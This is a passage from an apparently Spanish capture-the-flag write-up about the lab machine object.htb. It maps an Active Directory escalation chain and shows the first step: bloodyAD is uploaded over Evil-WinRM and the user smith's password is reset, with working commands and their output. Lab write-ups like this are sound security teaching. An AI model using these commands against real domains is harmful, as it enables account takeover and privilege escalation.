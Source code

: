 Y rápidamente detectamos un vector de ataque.
![Write-up Image](images/Screenshot_23.png)

El usuario `oliver` tiene el atributo `ForceChangePassword` hacía el usuario `smith`, esto significa que podemos cambiar la contraseña de `smith`.

`smith` a su vez tiene el atributo `GenericWrite` sobre el usuario `maria` que significa que podemos escribir cualquier atributo no protegido en el objeto víctima por lo cual podríamos crear una `Shadow Credential` para poder autenticarnos como `maria` sin necesidad de cambiar la contraseña.

Y para terminar `maria` tiene el atributo `WriteOwner` sobre el grupo `Domain Admins` que significa que `maria` puede modificar al propietario de este grupo que es `Administrator` y podríamos agregar a otro usuario como propietario.


Pero vamos pasito a pasito.
## Abusing ForceChangePassword

Vamos a utilizar `bloodyAD` para realizar este paso de nuestro vector de ataque ya que es como una navaja suiza para los movimientos laterales y escalada de privilegios en Active Directory.
https://github.com/CravateRouge/bloodyAD

Lo subimos a la máquina víctima.
```console
*Evil-WinRM* PS C:\Windows\Temp\work> upload bloodyAD.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/bloodyAD.exe to C:\Windows\Temp\work\bloodyAD.exe
                                        
Data: 17932052 bytes of 17932052 bytes copied
                                        
Info: Upload successful!
```

Podemos intentar cambiar la contraseña de `smith`
```console
*Evil-WinRM* PS C:\Windows\Temp\work> .\bloodyAD.exe --host 127.0.0.1 -d object.htb set password "smith" "Pointed123@"
bloodyAD.exe : unicrypto\backends\cryptography\RC4.py:13: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
    + CategoryInfo          : NotSpecified: (unicrypto\backe...dule in 48.0.0.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[+] Password changed successfully!
```

